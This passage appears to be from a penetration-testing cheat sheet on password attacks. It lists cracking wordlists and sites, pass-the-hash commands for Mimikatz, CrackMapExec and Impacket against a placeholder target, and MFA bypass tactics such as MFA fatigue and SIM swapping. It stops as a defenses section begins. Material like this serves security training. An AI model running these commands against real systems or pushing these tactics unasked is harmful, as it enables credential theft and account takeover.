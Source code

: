 ## Wordlists

### Popular Wordlists

```bash
# RockYou (14 million passwords)
/usr/share/wordlists/rockyou.txt

# SecLists
/usr/share/seclists/Passwords/

# Common passwords
/usr/share/wordlists/fasttrack.txt

# Kali default wordlists
/usr/share/wordlists/
```

### Online Resources

- **SecLists**: https://github.com/danielmiessler/SecLists
- **Have I Been Pwned**: https://haveibeenpwned.com/Passwords
- **WeakPass**: https://weakpass.com/
- **CrackStation**: https://crackstation.net/

## Pass-the-Hash Attacks

Authenticating with hash instead of password.

```bash
# Mimikatz
sekurlsa::pth /user:Administrator /domain:DOMAIN /ntlm:HASH /run:cmd.exe

# CrackMapExec
crackmapexec smb target.com -u Administrator -H NTLM_HASH

# Impacket
psexec.py -hashes :NTLM_HASH administrator@target.com
```

## Multi-Factor Authentication (MFA) Bypass

- **Social Engineering**: Trick users into approving MFA
- **Session Hijacking**: Steal authenticated session tokens
- **MFA Fatigue**: Spam MFA requests until user approves
- **Backup Codes**: Target backup authentication methods
- **SIM Swapping**: Hijack phone numbers for SMS-based MFA

## Defense Mechanisms

### Password Policies
